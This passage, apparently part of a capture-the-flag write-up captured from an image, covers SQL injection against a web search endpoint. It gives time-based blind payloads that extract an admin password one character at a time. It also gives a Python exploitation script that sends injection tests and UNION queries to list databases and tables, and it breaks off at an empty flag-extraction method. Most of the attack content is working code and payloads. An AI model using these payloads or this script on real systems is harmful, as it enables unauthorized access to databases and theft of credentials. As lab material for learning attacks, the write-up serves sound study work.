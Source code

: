 ## Time-Based Blind SQL Injection

```sql
-- Time-based payload
' AND IF((SELECT COUNT(*) FROM users WHERE username='admin')>0,SLEEP(5),0) --

-- Extract data character by character
' AND IF((SELECT ASCII(SUBSTRING(password,1,1)) FROM users WHERE username='admin')>64,SLEEP(5),0) --
```

## Complete Exploitation Script

```python
#!/usr/bin/env python3
import requests
import re
from urllib.parse import quote

class SQLInjectionExploit:
    def __init__(self, base_url):
        self.base_url = base_url
        self.session = requests.Session()

    def test_injection(self):
        """Test for SQL injection vulnerability"""
        test_payloads = [
            "test'",
            "test' OR '1'='1",
            "test' AND '1'='1"
        ]

        for payload in test_payloads:
            response = self.session.get(
                f"{self.base_url}/search",
                params={'q': payload}
            )
            print(f"Payload: {payload}")
            print(f"Status: {response.status_code}")
            print(f"Length: {len(response.text)}")
            print("-" * 50)

    def extract_databases(self):
        """Extract database names"""
        payload = "' UNION SELECT schema_name,null,null FROM information_schema.schemata --"
        response = self.session.get(
            f"{self.base_url}/search",
            params={'q': payload}
        )
        return re.findall(r'Database: (\w+)', response.text)

    def extract_tables(self, database):
        """Extract table names from database"""
        payload = f"' UNION SELECT table_name,null,null FROM information_schema.tables WHERE table_schema='{database}' --"
        response = self.session.get(
            f"{self.base_url}/search",
            params={'q': payload}
        )
        return re.findall(r'Table: (\w+)', response.text)

    def extract_flag(self):
        """Extract the flag"""
```
